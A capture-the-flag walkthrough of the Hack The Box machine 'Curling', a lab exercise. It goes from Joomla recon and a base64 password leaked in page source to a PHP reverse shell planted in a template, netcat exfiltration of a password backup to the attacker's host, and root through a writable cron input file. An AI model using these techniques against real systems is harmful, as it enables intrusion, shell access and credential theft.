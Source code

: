 # Curling

![Curling.png](images//Curling.png)

# Recon

### PortScan

`nmap -sC -sV 10.10.10.150`

![Untitled](images//Untitled.png)

## Web ( 80 )

### Directory discover

`gobuster dir -u http://10.10.10.150/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![Untitled](images//Untitled%201.png)

### Version

Version found inside `README.txt` file

![Untitled](images//Untitled%202.png)

### Scan Joomla

`joomscan --ec -u http://10.10.10.150/`

![Untitled](images//Untitled%203.png)

### Source code

Some `secret.txt` file

`view-source:http://10.10.10.150/`

![Untitled](images//Untitled%204.png)

Decode this string

![Untitled](images//Untitled%205.png)

`echo "Q3VybGluZzIwMTgh" | base64 -d`

![Untitled](images//Untitled%206.png)

`Curling2018!`

### Admin login

This message is signed by Floris so maybe the username is `floris`

![Untitled](images//Untitled%207.png)

Login using `floris:Curling2018!`

![Untitled](images//Untitled%208.png)

## Foot Hold

Go to the templates page

![Untitled](images//Untitled%209.png)

I used this template but there is another one

![Untitled](images//Untitled%2010.png)

Now put here some PHP RCE, this one is from pentestmonkey

![Untitled](images//Untitled%2011.png)

Open the `netcat` listener

`nc -lvnp 4444`

Access to `http://10.10.10.150/index.php`

And we got the shell

![Untitled](images//Untitled%2012.png)

## Privilege Escalation

### Upgrade shell

`python3 -c "import pty;pty.spawn('/bin/bash')”`

![Untitled](images//Untitled%2013.png)

### Backup file

`cat /home/floris/password_backup`

![Untitled](images//Untitled%2014.png)

Send that file to you local machine, i used nc to do that

Local machine

`nc -lp 1234 > password_backup`

On the victim

`nc -w 3 {LOCAL-IP} 1234 < password_backup`

`xxd -r password_backup > password.unhex`

![Untitled](images//Untitled%2015.png)

Change the extension to `.bz2` and unzip it

![Untitled](images//Untitled%2016.png)

Now lets use gzip to unzip

![Untitled](images//Untitled%2017.png)

Unzip it again

![Untitled](images//Untitled%2018.png)

Found the password

![Untitled](images//Untitled%2019.png)

Now we can login to `floris` using this password

![Untitled](images//Untitled%2020.png)

`ssh floris@curling.htb`

![Untitled](images//Untitled%2021.png)

### Enumeration

Run the `pyps64` to look at some cronjob, and we had this curl that uses inputs from a file called input

![Untitled](images//Untitled%2022.png)

### Root

We can modify that file so we can use this payload and when it will run again the output gonna be inside the report file

![Untitled](images//Untitled%2023.png)

Read the report file to get the flag

![Untitled](images//Untitled%2024.png)
